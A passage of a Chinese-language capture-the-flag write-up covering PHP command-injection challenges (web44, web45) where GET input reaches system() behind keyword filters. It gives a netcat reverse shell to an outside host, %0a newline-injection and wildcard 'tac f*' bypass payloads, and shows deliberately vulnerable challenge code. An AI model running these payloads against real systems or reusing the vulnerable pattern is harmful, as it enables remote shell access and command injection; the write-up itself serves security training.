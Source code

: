 把标准错误重定向到了标准输出,又把标准输出定义到黑洞里，简单来说就是没有回显，直接nc反弹shell

nc 5873o627r8.yicp.fun 40277 -e /bin/sh

或者%0a截断cat flag.php%0a

或者双写绕过cat flag.php;ls

### web44

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

在执行上题绕过时候还过滤了;跟cat,flag关键字

反弹命令也可

tac和通配符也可

pyload:tac f*%0a

### web45

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```